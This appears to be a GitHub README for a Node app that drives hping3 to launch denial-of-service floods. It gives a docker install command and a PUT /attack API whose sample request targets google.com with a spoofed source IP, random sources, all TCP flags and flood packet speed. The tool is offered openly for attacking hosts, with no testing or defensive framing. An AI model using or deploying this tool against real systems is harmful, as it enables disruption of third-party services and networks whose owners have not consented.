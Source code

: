 # This is a node app to perform dos attacks using hping3

## Install the app using docker

```bat
docker-compose up -d
```

### API to perform dos attack

**URL** : `/attack`

**Method** : `PUT`

```json
{
    "hostAddr": "google.com",
    "count": 2,
    "mode": "icmp",
    "spoofIp": "130.201.20.1",
    "randSource": true,
    "destPort": 100,
    "tcpFlags": ["fin", "syn", "rst", "push", "ack", "urg"],
    "dataSize": 10,
    "packetSpeed": "flood",
    "timeout": 10
}
```

### Requirements:
 - **Default `mode` is `TCP`, but modes can be any one of the following:**
   * `icmp`
   * `rawip`
   * `udp`

 - **`count` > 10**